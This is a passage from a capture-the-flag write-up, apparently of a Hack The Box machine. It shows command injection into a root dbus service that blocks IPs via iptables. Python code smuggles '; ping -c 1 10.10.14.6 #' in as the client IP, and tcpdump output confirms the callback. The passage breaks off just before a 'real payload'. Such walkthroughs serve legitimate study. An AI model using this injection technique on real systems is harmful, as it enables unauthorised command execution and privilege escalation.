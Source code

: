 I’m going to hypothesize that the dbus server is receiving IPs and running an
`iptables` command to block it, and that I might be able to do command
injection if it is not handling that input correctly.

I opened a local Python shell and used the commands in the web-app as a
template. `import dbus` fails, until I set the path like in the app, and then
it works:

    
    
    www-data@aeb4525789d8:/code$ python
    Python 3.7.6 (default, Feb  2 2020, 09:11:24) 
    [GCC 8.3.0] on linux
    Type "help", "copyright", "credits" or "license" for more information.
    >>> import dbus
    Traceback (most recent call last):
      File "<stdin>", line 1, in <module>
    ModuleNotFoundError: No module named 'dbus'
    >>> import sys                                          
    >>> sys.path.insert(0, "/usr/lib/python3/dist-packages")
    >>> import dbus
    

Now I’ll create a `bus` object, and set the interface.

    
    
    >>> bus = dbus.SystemBus()
    >>> block_object = bus.get_object('htb.oouch.Block', '/htb/oouch/Block')
    >>> block_iface = dbus.Interface(block_object, dbus_interface='htb.oouch.Block')
    

For a payload, I’ll see if I can just append a `ping`:

    
    
    >>> client_ip = '; ping -c 1 10.10.14.6 #'
    

With `tcpdump` listening, I’ll submit it:

    
    
    >>> response = block_iface.Block(client_ip)
    >>> response
    dbus.String('Carried out :D')
    >>> bus.close()
    

As soon as I sent the first command above, `tcpdump` got a hit:

    
    
    root@kali# tcpdump -i tun0 icmp                                       
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
    11:24:08.919117 IP 10.10.10.177 > 10.10.14.6: ICMP echo request, id 4646, seq 1, length 64
    11:24:08.919140 IP 10.10.14.6 > 10.10.10.177: ICMP echo reply, id 4646, seq 1, length 64  
    

It also worked with the command in `$()`. Now I’ll try a real payload:

    
    